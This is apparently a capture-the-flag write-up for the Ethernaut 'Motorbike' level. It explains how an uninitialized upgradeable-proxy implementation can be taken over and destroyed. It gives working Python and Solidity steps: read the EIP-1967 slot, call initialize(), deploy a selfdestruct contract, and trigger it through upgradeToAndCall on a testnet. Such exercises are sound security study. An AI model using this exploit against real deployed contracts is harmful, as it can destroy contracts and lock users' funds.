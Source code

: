 # Motorbike

## Objectives

Would you be able to `selfdestruct` its engine and make the motorbike unusable ?

## Solution

The Engine contract inherits from Initializable, which means the initializer function is restricted to be called once. However, because the Engine is the implementation and Motorbike is the proxy, the initializer modifier doesn't restrict EOAs or other contracts from calling the `initialize()` function and through `upgradeToAndCall()` effectively passing any call to the implementation. The call is passed through the `_upgradeToAndCall()` function in a `delegatecall`, this way we just deploy a malicious contract with `selfdestruct()` call in a function and call this function as if the caller was the engine contract.

The steps to reproduce it are simple:

1. Get the address of the Engine implementation, as defined in Motorbike identical to how they're usually defined in an Upgradeable Proxy contract
   
2. Call the `initialize()` function to become `upgrader` and be able to pass calls to the `_authorizeUpgrade()` function

3. Deploy a malicious contract with a single function that can self destruct the contract.

4. Call the function that would normally self destructs the malicious contract through a `delegatecall` in `upgradeToAndCall()` in the Engine contract by passing in the malicious contract address as `newImplementation` and the data that would call the function as `data`. After this, the Engine implementation contract will be destroyed.

## How I did it

1. Find the implementation address of the Engine contract

```python
# find engine contract implementation
storage_position_impl_address = hex(int(web3.sha3(text='eip1967.proxy.implementation').hex(),16)-1)
implementation_address = f'0x{web3.eth.get_storage_at(motorbike.address, storage_position_impl_address).hex()[-40:]}'

# load Engine contract
eg = Engine.at(implementation_address)
```

2. Call `initialize()` in the Engine contract

```python
# initialize the engine implementation
eg.initialize(_from)
```

Block explorer: https://rinkeby.etherscan.io/tx/0x79c0e38730d584e33f5e291452c09ae91542f349bd8772dedf451b4d58b3275a

3. Deploy a BombEngine contract (at: `0x89a05702875f0c18FF5B28640ea3DdE39FDe6E47`) with only a single function that can self destruct such contract

```cs
function boom() public {
    selfdestruct(address(0));
}
```

```python
# deploy our bomb engine contract
be = BombEngine.deploy(_from)
```
4. Call `UpgradeToAndCall()` in the Engine implementation contract as described in [solution](#solution).

```python
# call upgradeToAndCall() to selfdestruct the Engine implementation contract
selfdestruct_call = be.boom.encode_input()
eg.upgradeToAndCall(be.address, selfdestruct_call, _from)
```

Block explorer: https://rinkeby.etherscan.io/tx/0x93e405003cb3065ae97a1c2d493eeba85a9b5f85f1db6b4fa0d27f3847ee23b6

5. Confirm that the contract has been successfully destroyed by checking if we can call the getter function for one of the state variables, in this case `upgrader()`

```python
try:
    # call the getter function
    eg.upgrader()

    # print if it didnt fail
    print('The contract was not successfully self destructed')

    # return that it failed
    return False
except:
    # print if it failed
    print('The contract was successfully self destructed')
    
    # return that it succeeded
    return True
```

### Submission transaction

Block explorer: https://rinkeby.etherscan.io/tx/0xbc0466a3268b594bb4c1273a022e188c359a0d26c379ee265f5a095ea17b0fce
